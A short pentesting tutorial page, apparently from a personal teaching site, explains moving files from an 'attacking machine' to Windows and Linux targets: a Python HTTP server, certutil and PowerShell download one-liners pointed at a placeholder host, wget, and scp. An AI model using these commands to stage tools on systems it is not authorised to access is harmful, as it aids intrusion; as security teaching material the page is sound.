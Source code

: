 ```yaml
---
title: "File Transfer"
collection: teaching
#type: "Undergraduate course"
permalink: /teaching/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
 ## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##
There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```